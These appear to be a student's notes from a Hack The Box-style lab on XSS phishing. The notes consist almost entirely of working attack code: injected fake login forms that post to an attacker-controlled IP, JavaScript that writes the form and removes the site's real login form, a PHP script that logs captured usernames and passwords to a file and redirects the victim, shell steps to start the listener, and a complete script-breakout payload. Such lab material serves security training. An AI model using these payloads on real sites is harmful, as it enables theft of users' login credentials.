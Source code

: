 
Login Form Injection using cred params(Routes creds to a listening server)
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
Login Form Injection using text params(Routes creds to a listening server)
```html
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```
Payload to upload form
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
Remove original document login
```javascript
document.getElementById('urlform').remove();
```

Creating php route for credential login (on attack host)
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Creating php temp server
```shell-session
Auzzie@htb[/htb]$ mkdir /tmp/tmpserver
Auzzie@htb[/htb]$ cd /tmp/tmpserver
Auzzie@htb[/htb]$ vi index.php #at this step we wrote our index.php file
Auzzie@htb[/htb]$ sudo php -S 0.0.0.0:80
```

Payload example
```html
'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.41:80><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```


